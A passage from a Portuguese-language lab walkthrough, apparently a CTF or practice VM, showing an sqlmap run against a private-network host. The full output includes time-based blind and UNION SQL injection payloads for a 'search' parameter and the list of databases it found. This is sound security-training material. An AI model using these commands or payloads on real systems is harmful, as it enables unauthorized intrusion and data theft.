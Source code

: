 Então, dado o comando completo e executando esse, o resultado será:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:47:28 /2023-04-17/

[09:47:29] [INFO] resuming back-end DBMS 'mysql'
[09:47:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=Elvis' AND (SELECT 9931 FROM (SELECT(SLEEP(5)))YBZO) AND 'xeXj'='xeXj&value=Search

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=Elvis' UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x675842666d74744d576a486d58474b5a565a4c68434c48735372664161774547724f6446674b754d,0x71766b6271)-- -&value=Search
---
[09:47:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:47:29] [INFO] fetching database names
available databases [4]:
[*] employees
[*] information_schema
[*] mysql
[*] performance_schema

[09:47:29] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'

[*] ending @ 09:47:29 /2023-04-17/
```
Dada a saída anterior, é possível observar que a opção ``--dbs`` do SQLmap surtiu efeito na vítima, pois foram retornados os seguintes nomes de bancos de dados no servidor em questão:
* ``employees``;
* ``information_schema``;
* ``mysql``;
* ``performance_schema``.
